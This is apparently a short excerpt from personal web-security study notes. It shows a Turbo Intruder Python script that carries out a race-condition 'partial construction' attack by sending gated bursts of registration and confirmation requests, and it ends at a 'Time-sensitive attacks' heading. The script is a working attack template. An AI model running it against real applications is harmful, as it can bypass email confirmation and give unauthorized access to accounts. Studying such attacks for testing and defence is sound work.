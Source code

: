 ```py
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for i in range(20):
        u = 'user'+str(i)
        
        # queue a single registration request for user u
        engine.queue(target.req, u, gate=str(i))
        
        # queue 50 confirmation requests for every user u - note that this will probably sent in two separate packets
        for n in range(50):
            engine.queue(confirmationReq, gate=str(i))
        
        # send all the queued requests for this attempt
        engine.openGate(str(i))

def handleResponse(req, interesting):
    table.add(req)
```

![](../../zzz_res/attachments/partial-construction-attack.png)
### Time-sensitive attacks
